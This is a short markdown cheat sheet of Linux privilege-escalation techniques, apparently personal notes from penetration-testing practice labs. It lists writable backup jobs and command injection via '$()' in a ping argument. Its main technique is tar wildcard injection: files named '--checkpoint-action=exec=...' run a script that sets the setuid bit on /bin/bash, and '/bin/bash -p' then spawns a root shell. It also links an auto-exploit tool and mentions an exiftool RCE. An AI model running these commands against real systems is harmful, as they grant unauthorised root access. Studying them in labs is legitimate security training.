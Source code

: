 ## backup
+ backup script, decrypt file. pg-shifty
+ backup job with file writable
+ backup job, writable script
+ backup job, writable to backup content/file
+ 

## command injection
+ insteresting scripts, (eg.sh/python/perl)
+ check file permission if you have write permission.
+ check file content, if script run exec; 

```bash
# command exec 
## ; | || & - `
## bypass, $()
ping 10.10.10.$(echo 123)

```

## wildcards

### tar
+ Execute arbitrary commands, cronjob
+ tar extract file with the suid property; htb-tartarsauce;
+ auto exploit, [wildpwn](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py)
+ more info [papers-33930]( https://www.exploit-db.com/papers/33930)

```bash
# tar file, exploit wildcards
touch ./"--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"

## pg-readys
echo "chmod +s /bin/bash" > exploit.sh
touch ./"--checkpoint=1"
touch ./"--checkpoint-action=exec=bash exploit.sh"

/bin/bash -p

# untar file with suid bit.
## use bash, setuid or other file.
sudo chown root:root bash

tar -zcvf bash.tar.gz ./

## check the executes time;
systemctl list-timers
```

## Other tricks
+ exiftool version < v12.24, RCE 
+ pg - exfiltrated
